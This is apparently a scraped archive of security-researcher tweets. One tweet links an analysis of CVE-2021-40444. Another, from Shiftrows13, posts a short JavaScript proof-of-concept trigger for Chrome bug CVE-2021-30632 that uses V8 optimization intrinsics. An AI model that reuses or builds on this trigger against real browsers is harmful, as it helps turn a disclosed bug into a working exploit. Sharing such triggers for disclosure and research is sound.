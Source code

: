 #CVE202140444 #0day

@Autow00t @DmitriyMelikov https://t.co/12PdoyDxJA
</blockquote>

* https://inquest.net/blog/2021/09/13/cve-2021-40444

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+E_P626xXMAoH4pM.jpg" alt="http://pbs.twimg.com/media/E_P626xXMAoH4pM.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# Shiftrows13
**https://twitter.com/Shiftrows13/status/1437754743712063491 _at 2021-09-14 12:26:57_**
<blockquote>
CVE-2021-30632 #Chrome #0day #PoC 

var a;
function foo() {
    a = new Uint32Array(100);
}
%PrepareFunctionForOptimization(foo);
foo();
foo();
a["xxx"] =1;
delete a["xxx"];
%OptimizeFunctionOnNextCall(foo);
foo();
</blockquote>
